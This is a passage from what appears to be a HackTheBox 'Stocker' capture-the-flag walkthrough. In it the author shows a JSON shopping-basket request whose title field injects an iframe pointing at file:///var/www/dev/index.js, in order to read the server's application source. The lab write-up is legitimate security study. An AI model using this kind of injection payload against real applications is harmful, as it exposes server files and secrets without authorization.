 <p align="center">
  <img src="/images/walkthroughs/hackthebox/stocker/5_5_location.png" width="90%"/>
</p>

After some test looking for interesting files (mongo config, mongo logs...) I got the main JS file for express JS. I tried app.js and index.js, this last one got me the file:


```json
{
    "basket": [
        {
            "amount": 1,
            "currentStock": 4,
            "image": "red-cup.jpg",
            "price": 32,
            "_id": "638f116eeb060210cbd83a8d",
            "title": "<iframe width=\"500\" height=\"800\" src=file:///var/www/dev/index.js></iframe>",
            "description": "It's a red cup.",
            "__v": 0
        }
    ]
}
```

<p align="center">